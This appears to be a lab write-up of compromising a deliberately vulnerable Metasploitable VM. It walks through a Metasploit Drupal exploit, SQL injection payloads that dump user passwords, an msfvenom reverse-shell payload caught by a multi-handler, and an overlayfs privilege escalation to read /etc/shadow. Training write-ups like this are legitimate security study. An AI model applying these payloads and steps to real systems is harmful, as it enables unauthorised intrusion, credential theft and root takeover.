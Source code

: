 **Objective:** Exploit a Linux machine and escalate privileges to gain root access.

1. On my Kali VM, I executed **ifconfig** to identify the machine's IP address, which was **10.0.2.6**. I subsequently conducted a scan with command **nmap 10.0.2.0/25** and noted the resulting IP address, **10.0.2.15**, and its open ports, especially port 80. This IP is believed to be that of the Metasploitable VM.
2. I accessed the Metasploitable VM's IP **10.0.2.15** via Firefox and navigated to the Drupal directory.
3. Launching MSFconsole, I searched for **drupal exploits** and selected exploit number 2, based on its HTTP parameter key, which corresponds to the service running on port 80.
4. Upon executing the **use 2** command, I viewed the module options using **show options**. I identified that the RHOSTS (Target IP), RPORT (80), and TARGETURI (URL from Firefox) settings needed configuration.
5. Once configured, I initiated the exploit, which led to opening a Meterpreter session. Running **getuid** revealed the username **www-dat**.
6. I proceeded to the LinPEAS GitHub page and executed its command on the VM. This initiated LinPeas, and I noted the overlayfs CVE **[CVE-2016-1328] overlayfs**.
7. In the Meterpreter session, I searched for **overlayfs modules**, opting for number 1, given its disclosure date matched the year of the identified CVE.
8. After executing **use 1**, I set the LHOST (Host IP) options and established the session to number 1.
9. Unfortunately, running the exploit didn't generate a session due to PHP's session architecture.
10. I reverted to the root directory and identified **payroll_app.php**. Attempting SQL Injection in the username field with **’ OR 1=1#**, I was presented with a list of usernames, full names, and associated salaries.
11. Returning to the login page, I inserted **' OR 1=1 UNION SELECT null,null,username,password FROM users#** in the username field. This action revealed another list, which included usernames, passwords, full names, and salaries.
12. From this list, I decided to log in as jarjar_binks. As the earlier nmap scan showed port 22 open for SSH, I initiated an SSH session with **jarjar_binks@10.0.2.15**. After inputting the password, I successfully logged in as jarjar_binks.
13. In this session, I navigated to the **etc directory** and attempted to view the shadow file using **cat**. Access was denied.
14. To escalate privileges, I created an MSFvenom payload. The command **msfvenom -l payloads | grep linux** revealed the desired payload **linux/x86/shell/reverse_tcp**.
15. I crafted this payload, configuring the LHOST and LPORT, and saved it as an ELF file named **shells**.
16. To transfer the file to the target machine, I utilized scp with the command **scp shells.elf jarjar_binks@10.0.2.15:/home/jarjar_binks**. I verified the transfer using the ls command.
17. Back in the MSF console, I searched for a multi-handler and selected number 5, given its generic payload handling capabilities.
18. I set the payload options for **linux/x86/shell/reverse_tcp**, including LHOST and LPORT.
19. Executing the multi-handler using **run**, I transitioned to the SSH session and ran “./shells.elf”. This action opened shell session 2 in msfconsole, confirming my login as jarjar_binks via the **whoami** command.
20. I returned to the MSF console, repeated the overlayfs search, and used option 1 again. Setting the session to number 2 and running the exploit opened session 3, wherein I had root access, confirmed by the **whoami** command.
21. Navigating to the etc directory and executing cat on the shadow file, I finally gained access.
